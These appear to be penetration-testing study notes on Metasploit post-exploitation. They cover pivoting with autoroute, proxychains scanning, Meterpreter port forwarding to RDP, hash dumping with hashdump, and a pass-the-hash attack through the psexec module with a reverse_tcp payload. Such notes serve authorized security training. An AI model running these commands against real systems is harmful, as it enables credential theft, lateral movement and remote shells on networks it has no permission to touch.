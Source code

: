 
---

* **Pivoting and Internal Network Scan**  
Pivoting allows us to move through the internal network easily and quickly, exploiting new hosts.  
```bash

* **Pivoting:**
    - Route traffic through compromised machines:
      - Add route in Metasploit: `route add 10.10.10.0 255.255.255.0 <session number>`
      - Use autoroute: `run autoroute -s 10.10.10.0/24`
      - Check routes: `autoroute -p`
    
* **Port Scanning via Pivot:**
    - Use `auxiliary/scanner/portscan/tcp` for TCP port scanning.
    - Example: `use auxiliary/scanner/portscan/tcp`

* **Proxy Setup (Metasploit + Proxychains):**
    - Set up Metasploit SOCKS4 proxy:
      - Module: `auxiliary/server/socks4a`
      - Set SRVHOST & SRVPORT (default is port 1080).
    - Configure Proxychains:
      - Update `/etc/proxychains.conf`: `socks4 127.0.0.1 1080`
    - Example command:
      - `proxychains nmap -sT -Pn -n <target IP> --top-ports 50`

* **Access Services via Proxychains:**
    - SSH: `proxychains ssh <target IP>`
    - Telnet: `proxychains telnet <target IP>`

* **Port Forwarding (Meterpreter):**
    - Forward local ports to internal network services:
      - `portfwd add -l <local port> -p <target port> -r <target IP>`
    - Example:
      - `portfwd add -l 3333 -p 3389 -r 10.10.10.5`
    - Use RDP:
      - `rdesktop 127.0.0.1:3333`
```

***The difference between local port forwarding and remote port forwarding lies in the direction of traffic flow and the type of service being exposed:***

|               | **Local Port Forwarding**                          | **Remote Port Forwarding**                            |
| ------------- | -------------------------------------------------- | ----------------------------------------------------- |
| **Direction** | Local port to remote service                       | Remote port to local service                          |
| **Purpose**   | Access remote service from local machine           | Expose local service to remote machine/network        |
| **Example**   | Forward RDP from an internal network to local port | Make local web server accessible to external machines |

Both techniques are used to bypass firewall restrictions and control access to services behind NAT or restrictive network policies.

***


At this stage, we apply privilege escalation and maintaining access techniques.

* **Pass-the-Hash Attack**  
- **Weakness**: Windows authentication protocols allow users to log in using hashed versions of passwords (NT or LM hashes) instead of cleartext passwords.  
- **Attack Vector**: If the same password is used across multiple machines, obtaining the hash from one host grants access to others, even without knowing the actual password.

* **Tools for Pass-the-Hash**  
- Metasploit and other tools are available to exploit this Windows weakness.  
- You only need the hashes, not the cracked passwords.

* **Dumping Hashes**  
- **Command**:  
  ```bash
  meterpreter > hashdump
  ```

* **Pass-the-Hash with Metasploit (psexec Module)**  
To run a pass-the-hash attack using the `psexec` module:

- **Configure the Module**:
  - **RHOST**: Target host (e.g., 10.10.10.5)
  - **SMBUser**: User account (e.g., els)
  - **SMBPass**: Password hash
  - **Payload**: Meterpreter or custom payload

- **Commands**:
  ```bash
  use exploit/windows/smb/psexec
  set RHOST 10.10.10.5
  set SMBUser els
  set SMBPass <NTLM hash>
  set PAYLOAD windows/meterpreter/reverse_tcp
  run
  ```

* **Post-Exploitation After Successful Exploit**  
Once you have a meterpreter session on a new machine, repeat the post-exploitation process to gather more information (e.g., services, hosts, networks).  

* **Notes**  
- Use proxychains with socks4a to pivot exploits if Metasploit doesn't have a module for the specific vulnerability.

---

